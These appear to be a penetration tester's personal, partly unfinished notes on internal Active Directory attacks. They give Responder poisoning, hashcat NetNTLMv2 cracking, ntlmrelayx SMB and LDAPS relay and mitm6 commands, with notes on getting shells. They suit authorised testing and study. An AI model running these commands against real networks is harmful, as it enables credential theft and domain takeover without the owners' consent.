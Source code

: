 ```yaml
---
 **1 Netbios && LLMNR Name poisoning**\
 **2 Relay attacks**\
 **3 mitm6**\
 **4 MS17-010**\
 **5 kerberoasting**
---
```

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning**
       - needs traffic - ideal before nmap/nessus scans
       - responder: 'python /usr/share/responder/Responder.py -L eth0 -rdwv'
   a) try to access attacker IP address. see ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)
       -  'hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt'  # --m 5600 module for NetNTLMv2
---
**2. SMB Relay attacks:**
       - Requirements:: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
       - setup ntlmrelay see ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png) 
   a) Find machines w/ smb enabled:
        'nessus or nmap:: 'nmap --script=smb2-security-mode.nse -p445 192.168.86.0/24'
            Nmap scan report for oxytocin-dc.lan (192.168.86.205)  (DC)
            PORT    STATE SERVICE
            445/tcp open  microsoft-ds
            Host script results:
            | smb2-security-mode:
            |   2.02:
            |_    Message signing enabled and required'
   'python3 ntlmrelayx.py -tf targets.txt -smb2support (-i)'  'python3 -m pip install .' for install && -i interactive shell"
       - Working but keeps failing:: see ![revmalz](Screenshots/revshell_smb_malz.png) && ![break](Screenshots/malz_smb_breaking.png)
       - For shells W/ creds: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
               #wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy##
---
**3. Pv6 Attacks: DNS relay**
    # requirements, must have certificate in DC
       #manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs
       -'sudo python3 mitm6.py -d carbon.local'
       -'sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme'
       - see ![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)
---
4. 
---

5. MS17-010
---
6. 
 
[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords)
[impacket] (https://github.com/SecureAuthCorp/impacket)
[mitm6] (https://github.com/dirkjanm/mitm6)
